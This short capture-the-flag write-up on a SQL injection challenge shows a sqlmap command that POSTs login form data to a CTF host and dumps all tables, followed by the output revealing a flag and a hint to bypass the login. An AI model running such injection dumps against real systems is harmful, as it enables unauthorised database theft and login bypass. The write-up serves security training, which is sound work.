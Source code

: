 # SQL Injection #1

By running this `sqlmap` command, the first flag could be found:

```bash
❯ sqlmap -u http://chal4.hackademy.ctf/ --data="username=damien&password=allo&form=submit" --method POST -D SQLite --dump all --batch --risk 3 --level 3
```

The following output was then obtained:

```
Database: <current>
Table: fl4G_1s_H3re
[1 entry]
+-----------------------------------------------------------------------------------------------------------------------------+
| apprentice_flagTODO                                                                                                         |
+-----------------------------------------------------------------------------------------------------------------------------+
| FLAG-b6c00f68954057dd09658be5d187aac5 (1/2). If you don't already have, try to bypass the login (still with the injection). |
```

:triangular_flag_on_post: 